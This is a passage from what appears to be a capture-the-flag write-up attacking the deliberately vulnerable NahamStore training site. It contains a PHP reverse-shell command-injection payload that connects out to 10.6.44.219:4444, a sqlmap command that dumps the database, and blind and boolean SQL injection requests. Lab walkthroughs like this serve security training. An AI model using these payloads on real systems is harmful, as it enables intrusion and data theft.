 * Reverse shell:

```
what=order&id=4$(php+-r+'$sock%3dfsockopen("10.6.44.219",4444)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b')
```

* Decoded:

```
what=order&id=4$(php -r '$sock=fsockopen("10.6.44.219",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```


<br><br><br>


#### SQL Injection


* SQL Injection was found under this endpoint:

* Use SQLmap to dump the tables:

```
sqlmap -u "http://nahamstore.thm/product?id=2" --batch --dump
```

<br>

* Blind SQL Injection was found here:

```
POST /returns HTTP/1.1
Host: nahamstore.thm

-----------------------------314950343633128084192905981754
Content-Disposition: form-data; name="order_number"

1; select sleep (10)--
-----------------------------314950343633128084192905981754
```

* Another payloads that worked to identify the vulnerability was:

* The response retuned between these payloads was very different:

```
1 or 1=test--
```

```
1 or 1=1--
```

* Save the entire POST request to a .txt file so we can send it to SQLMap:

* Include a \* within the value of the vulnerable parameter:

```
POST /returns HTTP/1.1
Host: nahamstore.thm
...

-----------------------------314950343633128084192905981754
Content-Disposition: form-data; name="order_number"

1*
-----------------------------314950343633128084192905981754
```

